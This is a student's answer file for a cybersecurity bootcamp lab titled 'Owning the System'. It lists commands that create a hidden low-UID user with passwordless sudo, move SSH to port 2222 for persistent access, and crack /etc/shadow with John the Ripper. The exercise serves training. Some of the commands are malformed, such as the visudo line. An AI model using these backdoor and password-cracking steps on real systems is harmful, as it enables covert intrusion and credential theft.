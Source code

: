 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 11 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 11 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo | sysd   ALL=(ALL:ALL) NOPASSWD:ALL`

6. Test that `sudo` access works without your password:

    ```bash
    sudo -l
    sudo -v
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    #Port 22
    Port 2222
    #AddressFamily any
    #ListenAddress 0.0.0.0
    #ListenAddress ::

    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `service sshd restart`

2. Exit the `root` account:
    - `root:~\ $ exit
       exit
       sysadmin:~\ $ exit
       logout
       Connection to 192.168.6.105 closed.`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    - `sudo -s
       john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

